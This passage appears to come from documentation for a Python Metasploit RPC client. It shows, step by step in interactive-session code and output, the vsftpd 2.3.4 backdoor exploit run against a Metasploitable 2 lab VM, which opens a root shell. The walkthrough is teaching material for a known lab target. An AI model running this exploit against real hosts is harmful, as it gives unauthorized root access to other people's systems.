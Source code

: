 ```python
```

Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our exploit target. It's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded. Our next step is to specify our target:

```python
>>> exploit['RHOST'] = '172.16.14.145' # IP of our target host
>>>
```

Select a payload:

```python
>>> exploit.targetpayloads()
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

We know the job ran successfully because `job_id` is `1`. If the module failed to execute for any reason, `job_id` would
 be `None`. If we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'jsmith', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

### Interacting with the shell
Create a shell object out of the session number we found above and write to it:

```python
>>> shell = client.sessions.session('1')
>>> shell.write('whoami')
>>> print(shell.read())
root
>>>
```
